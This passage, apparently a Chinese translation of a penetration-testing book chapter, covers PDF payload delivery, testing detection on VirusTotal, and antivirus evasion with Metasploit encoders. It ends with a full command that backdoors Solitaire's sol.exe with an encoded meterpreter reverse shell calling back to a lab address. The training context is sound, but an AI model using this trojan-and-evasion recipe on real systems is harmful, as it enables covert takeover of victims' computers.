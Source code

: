 正如前面的屏幕截图所示，我们现在将有效负载伪装成 PDF。屏幕截图还显示，我们需要特定版本的 Adobe 才能利用此漏洞。同样，我们已经经历了足够多的过程，在此不再重复。过程是一样的；这里唯一的区别是，我们将使用 PDF 文件作为攻击向量。

# 绕过防病毒等防护工具

我们在客户端测试中面临的挑战之一是（极有可能）将有端点保护，因此，不仅很有可能被捕获，而且我们的载体也会被主机保护删除。与任何基于特征的检测一样，存在一个数据库，其中包含已发现的不同病毒及其变体的特征。当我们查看本章中使用的技术时，我们需要了解我们开发的有效负载是否会被防病毒软件检测到。

### 注

非常擅长帮助的网站是[www.virustotal.com](http://www.virustotal.com)。

我们可以上传我们的潜在负载，看看它是否被防病毒软件检测到。我们在本章前面创建的`https.exe`文件示例如以下屏幕截图所示：

![Bypassing antivirus and other protection tools](graphics/477-1_12_47.jpg)

正如之前的截图所示，51 款防病毒产品中有 34 款检测到该文件。这大约是 67%，不是一个很好的检出率。正如我们之前所做的那样，我们将查看我们正在测试的站点是否有防病毒版本，然后在查看文件时查看产品是否成功。以下屏幕截图显示了一些未检测到恶意代码的产品的示例：

![Bypassing antivirus and other protection tools](graphics/477-1_12_48.jpg)

我们要查看的下一个文件是我们的 PDF 文件。以下屏幕截图显示了检测能力的示例：

![Bypassing antivirus and other protection tools](graphics/477-1_12_49.jpg)

显示检测能力示例的屏幕（剪切的文本不重要）

对于 PDF 文件，我们有一个更低的检测率和，因此我们可以通过比二进制有效负载更多的产品。

# 混淆与编码

因为我们知道我们的文件被检测到，所以我们有一些方法试图使它们更难检测，正如您可以想象的那样，基于签名的检测，的目标是修改文件，使其与签名不匹配。正如我们之前所做的，我们将研究 metasploit 提供的模块，以尝试修改文件的签名。我们将看到的工具是元 Sploit 中的`msfencode`。我们可以通过输入`msfencode –h`来查看工具的使用情况。此命令的输出显示在以下屏幕截图中：

![Obfuscation and encoding](graphics/477-1_12_50.jpg)

接下来我们要探讨的是实际的编码器本身。该工具不仅有许多选项，而且还有许多不同的编码器，如以下屏幕截图中的列表所示：

![Obfuscation and encoding](graphics/477-1_12_51.jpg)

我们将使用的最后一种技术来查看针对它的检测能力是可执行文件中的后门概念。我们喜欢的是，我们可以将任何合法的可执行文件作为后门，当用户运行它时，他们会向我们发送一个 shell。我们将用于本实验的程序是`sol.exe`，这是纸牌程序。我们将使用其中一个编码器，但在此之前，我们有从 Windows 机器复制原始`sol.exe`文件，并将其放置在 templates 文件夹中，如以下屏幕截图所示：

![Obfuscation and encoding](graphics/477-1_12_52.jpg)

一旦文件位于正确的位置，我们将在可执行文件中创建后门，并且我们将再次使用`msfpayload`和`msfencode`的组合。输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.177.170 LPORT=443 R | msfencode -t exe -x sol.exe -k -o sol_bdoor.exe -e x86/shikata_ga_nai -c 3

```

此命令输出的示例如以下屏幕截图所示：
